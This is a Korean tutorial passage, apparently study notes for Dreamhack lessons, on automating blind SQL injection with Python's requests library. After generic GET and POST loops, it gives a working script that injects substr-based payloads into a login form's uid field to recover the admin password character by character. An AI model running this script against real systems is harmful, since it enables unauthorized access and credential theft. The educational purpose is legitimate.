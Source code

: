 Blind SQL Injection은 **한 바이트씩 비교**하여 공격하는 방식이기 때문에 **많은 시간**이 걸린다.

이 때, 파이썬에서 **requests** 라는 라이브러리를 통해 좀 더 수월하게 할 수 있다.

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
params = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.get(url + str(i), headers=headers, params=params)
    print(c.request.url)
    print(c.text)
```

위의 코드는 **GET 메소드**를 이용하는 방식으로 10번째 줄에서 for문을 통해 자동으로 질의를 할 수 있다.

```python
import requests
url = 'https://dreamhack.io/'
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'DREAMHACK_REQUEST'
}
data = {
    'test': 1,
}
for i in range(1, 5):
    c = requests.post(url + str(i), headers=headers, data=data)
    print(c.text)
```

위의 코드도 마찬가지이고, **POST 메소드**를 이용한다.

## Blind SQL Injection 스트립트 작성

```python
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# ascii printables(비밀번호의 범위 : 알파벳, 숫자, 특수 문자)
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.printable
# 사용할 SQL Injection 쿼리
query = '''admin' and substr(upw,{idx},1)='{val}'-- '''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ch).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
```